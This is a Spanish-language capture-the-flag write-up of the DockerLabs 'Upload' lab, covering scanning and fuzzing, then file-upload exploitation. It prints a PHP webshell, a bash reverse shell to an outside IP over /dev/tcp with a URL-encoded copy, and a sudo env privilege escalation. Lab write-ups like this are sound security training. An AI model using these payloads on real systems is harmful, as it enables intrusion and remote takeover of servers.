




___
Tags: #webshell #php #env
___
# Upload
## Información General

**- Dificultad:** Fácil <br>
**- Sistema operativo:** Linux <br>
**- Vulnerabilidad explotada.**  Arbitrary File Upload → RCE (webshell), Local Privilege Escalation (SUID `env` / GTFOBins) <br>
**- Fecha de resolución:** 27/02/2026 <br>
**- Enlace:** https://dockerlabs.es

## Reconocimiento

**Dockerlabs** nos proporciona la ip de la máquina objetivo **172.17.0.2**

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 172.17.0.2
```

**Su ttl es 64. Por tanto es Linux**

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.17.0.2
```

<p align="center"> 

</p>

| Open port | Service | Version                        |
| --------- | ------- | ------------------------------ |
| 80        | http    | Apache httpd 2.4.52 ((Ubuntu)) |

## Enumeración

### Fuzzing web 

```
wfuzz -c --hc 404 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt http://172.17.0.2/FUZZ
```

<p align="center"> 

</p>

He descubierto una ruta **upload.php**

## Explotación

### Explotación 1

```
http://172.17.0.2/
```

<p align="center"> 

</p>

La idea es subir un archivo (una [[Web Shell]]) con código PHP que me permita obtener acceso a una shell en el servidor.

```
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Luego en el navegador accedemos donde esta el scripting y hacemos lo siguiente --> *ruta_donde_se_encuentra_script*?cmd=*comado*

<p align="center"> 

</p>

## Explotación Posterior

Para obtener una [revershell](https://www.revshells.com) y preparo el siguiente payload

```
bash -i >& /dev/tcp/192.168.0.108/4443 0>&1
```

Pero tenemos que encodearlo a URL que eso lo realizamos con **burpsuite**, pero hay que cambiar levemente el comando por:

```
bash -c "bash -i >& /dev/tcp/192.168.0.108/4443 0>&1"
```

a

```
%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%30%2e%31%30%38%2f%34%34%34%33%20%30%3e%26%31%22
```

### Escalada de Privilegios

#### Primer comando:

```
sudo -l
```

<p align="center"> 

</p>

Esto significa que el binario env tiene forma de acceder como root

En esta [página](https://gtfobins.org/gtfobins/env/#shell) te dice como escalarlo

```bash
sudo /usr/bin/env /bin/sh
```

<p align="center"> 

</p>

## Conclusión

La máquina Upload de DockerLabs es un laboratorio muy sencillo, ideal para quienes están empezando en el mundo de los CTF. En este reto, se obtiene ejecución de comandos al explotar una funcionalidad de subida de archivos y desplegar una webshell; después, la escalada de privilegios se logra aprovechando un binario con el bit SUID relacionado con env